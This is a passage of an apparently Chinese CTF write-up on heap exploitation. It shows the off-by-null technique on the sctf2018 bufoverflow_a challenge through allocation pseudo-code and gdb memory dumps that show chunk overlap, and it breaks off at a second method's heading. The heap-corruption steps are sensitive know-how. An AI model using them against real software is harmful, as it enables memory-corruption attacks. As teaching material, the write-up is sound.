 # The Method of Heap Use In CTF #
本篇文章的目的旨在对堆的一些使用方法和技巧进行总结，会不定期的更新。
## 1. off by null ##
以 **sctf2018 bufoverflow\_a** 题目为例，off by null的最终目的是为了完成chunk overlap，从而可以对其中的某些chunk内容进行改写。
### 利用方法1： ###
通过改写下一个chunk的size字段，从而将原空闲chunk的大小缩小。  
例如如下所示代码：
  
	Alloc(0x88)		#0
	Alloc(0x400)	#1
	Alloc(0x110)	#2
	Alloc(0x88)		#3

	Delete(0)
	Delete(1)
	Alloc(0x88)		#0
	Fill("a"*0x88)	//假设Fill函数中存在off by null漏洞，会多写一个"\x0"
此时，我们可以看看对于chunk1 的头部字段，Fill()函数执行前后的变化情况。  
	
	Fill()前
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x0000000000000000	0x0000000000000000
	0x0000000000000000	0x0000000000000411		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2	
	
	Fill()后
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x6161616161616161	0x6161616161616161
	0x6161616161616161	0x0000000000000400		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2		
			
可以看到，chunk1的大小减少了0x10byte。然后再次进行chunk的申请。  
	
	Alloc(0x88)		#1
	Alloc(0x88)		#4
	Alloc(0x200)	#5
	Alloc(0xc8)		#6
新申请的chunk1\_new，chunk4，chunk5，chunk6会占用之前chunk1\_old（大小为0x400）的位置。  
实际动态调试结果如下图所示：  

	0x5555557580b0:	0x6161616161616161	0x0000000000000091		<--chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--chunk2
	0x5555557584d0:	0x0000000000000000	0x0000000000000000

此时将chunk1\_new释放，再将chunk2释放。  

	Delete(1)
	Delete(2)
	Delete(5)
由于chunk2的presize字段的值仍为0x410，且其pre\_inuse为0（表示上一个块也处于释放状态）。释放chunk2会出发前向合并，形成一个包含chunk1，chunk4，chunk5，chunk6和chunk2的大块，如下图所示：

	gdb-peda$ x/150gx 0x5555557580c0-0x10
	0x5555557580b0:	0x6161616161616161	0x0000000000000521		<--原chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0x0000000000000000	0x0000000000000000
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--原chunk2
	0x5555557584d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584f0:	0xcccccccccccccccc	0xcccccccccccccccc


### 利用方法2： ###
